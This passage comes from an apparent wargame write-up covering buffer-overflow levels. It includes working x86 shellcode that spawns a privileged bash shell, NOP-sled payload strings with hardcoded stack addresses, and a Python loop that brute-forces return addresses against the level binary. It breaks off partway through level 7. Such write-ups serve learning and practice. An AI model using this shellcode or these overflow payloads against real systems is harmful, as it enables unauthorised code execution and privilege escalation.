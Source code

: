 ```
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print ("\x90" * (50 - len(shellcode))) + shellcode + ("\x90" * (90)) + "\xc0\xfb\xff\xbf" + "\x00"
```

Notice that I used an address in the middle of the buffer ("\xc0\xfb\xff\xbf" -> ```0xbffffbc0```), in case the position in memory of the buffer shifted when the code was run outside of GDB. This is a NOP sled, and helps ensure the code more reliably runs.

#### Level 6

This challenge is another buffer overflow, but now with some hoops to jump through. This program is meant to print out a greeting in one of three languages. When looking at the code, we immediately notice some funky stuff with structs and environment variables.

When the program loads it pulls the language from the LANG environment variable, which changes the greeting it prints. It also takes in a username and password, but only seems to use the username. When trying the normal buffer overflow I noticed it only copied 40 bytes for the username and 32 for the password. To overflow the greeting buffer, we'll need 64 bytes. Luckily, since it's a C struct, the username and password fields are stored next to each other in memory (both are multiples of 4 too), so we can use 40 bytes in the username and 32 in the password for a total of 72 bytes. However, after trying this out we notice we still can't overwrite EIP! We need to find more bytes somewhere.

The languages give us the final boost we need. If we choose 'de', we'll actually get enough of an extra boost from the longer German word 'Willkommen' be able to overwrite EIP :) After this, we can execute our shellcode as before.

When executing the shellcode, there's another small bump in the road; since the shellcode I use is 33 bytes, it has to go into the username field (password
can only take 32 max). Thus, my NOP sled is only 40 - 33 = 7 bytes long, making it harder to hit. To get this to work easily, I modified my python script to test
a bunch of different starting positions to find one that would hit my sled.

```
import os
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

for x in xrange(1, 255):
    print x
    command = "./level06 " + ("\x90" * 7) + shellcode + " " + ("\x90" * (25)) + "%s\xfc\xff\xbf" % str(chr(x))
    print command
    os.system(command)
```

#### Level 7

This time we need to perform another buffer overflow, but instead of injecting shellcode the binary has an if statement that pops as hell. A single input string is taken and passed into atoi(). To pop a shell, we need to overwrite a variable in memory (```count```), but since there's a check on the output of atoi (it cannot exceed 10), it seems like we can't actually write the ~60 bytes we need to set the var.

Turns out we can, but in a different way. Take a look at the following line
